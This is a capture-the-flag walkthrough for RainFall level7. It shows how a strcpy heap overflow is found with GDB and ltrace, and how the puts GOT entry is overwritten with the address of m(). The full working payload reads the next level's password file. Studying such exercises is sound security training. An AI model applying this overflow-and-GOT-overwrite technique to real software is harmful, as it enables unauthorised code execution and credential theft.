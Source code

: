# Level7 Walkthrough

## Analyzing the Program with GDB

1. **Disassemble the program functions aka whats happening there**:
   Using the command `info functions`  and `disas`, we found several functions :
   - main() : every str is malloc with only 8bytes and the argv[1] and argv[2] is respectively copied with strcpy but without veryfying the len, so we can write above the limit allocated.
   - m() : this function is reading the c[68] buffer which is the variable that has the password. 

   `Purpose is to read c[68] from m() function instead of puts`

## Running the program

1. **Execute the Program with the Correct Input**:  
   We ran the program with the following command:  
   ```bash
    level7@RainFall:~$ ./level7 
    Segmentation fault (core dumped)
    level7@RainFall:~$ ./level7 hello
    Segmentation fault (core dumped)
    level7@RainFall:~$ ./level7 hello world
    ~~
   ```
    The program segfaults if the user does not insert two arguments. In this case, it prints `~~`

2. **Trying to overflow the RET value**
    
    - Find the offset by padding: 
    
    ```bash
    gdb ./level7
    (gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

    (gdb) info register eax
    eax            0x37614136       929120566
    ```

    we find that the overflow starts at `7aA6` but upside down `6Aa7` in our input string, which represent an offset `20`.

    - We then need to find the puts() address, that will be the pointer to overwrite.
    ```bash
    (gdb) info function puts
    All functions matching regular expression "puts":

    Non-debugging symbols:
    0x08048400  puts
    0x08048400  puts@plt
    (gdb) disas 0x08048400
    Dump of assembler code for function puts@plt:
    0x08048400 <+0>:     jmp    *0x8049928
    0x08048406 <+6>:     push   $0x28
    0x0804840b <+11>:    jmp    0x80483a0
    End of assembler dump.
    ```

    ```bash
    Première Appel à puts:

    Le programme saute à 0x80483a0 via la PLT (procedure linkage table)
    'linstruction push $0x28 est utilisée pour transmettre un index spécifique au linker dynamique.
    Le linker détermine que l'index 0x28 correspond à puts, résout son adresse dans la bibliothèque partagée, et met cette adresse dans la GOT (global offset table).
    
    Appels Suivants à puts:

    Le programme saute directement à 'ladresse stockée dans la GOT (0x8049928), qui pointe maintenant vers la vraie fonction puts dans libc.
    ```

    So, the address of puts  is `*0x8049928` and in little-endian it is : `\x28\x99\x04\x08`

    - Test with ltrace : [ltrace is a function that can trace functions calls]
    ```bash
    level7@RainFall:~$ ltrace ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') hello
    __libc_start_main(0x8048521, 3, 0xbffff7c4, 0x8048610, 0x8048680 <unfinished ...>
    malloc(8)                                        = 0x0804a008
    malloc(8)                                        = 0x0804a018
    malloc(8)                                        = 0x0804a028
    malloc(8)                                        = 0x0804a038
    strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAA(\231\004\b") = 0x0804a018
    strcpy(0x08049928, "hello")                      = 0x08049928
    fopen("/home/user/level8/.pass", "r")            = 0
    fgets( <unfinished ...>
    --- SIGSEGV (Segmentation fault) ---
    +++ killed by SIGSEGV +++
    ```

    Now we need the address of m() with `info function m` : `0x080484f4`

    So, the address of m() in little-endian : `\xf4\x84\x04\x08`

    - Now we can use this payload to get the password :
    `./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')`

## Moving to level8

1. **Swith User to level8**:
    Run ```su level8```

2. **Authenticate with the Password**:
    We used the password we found.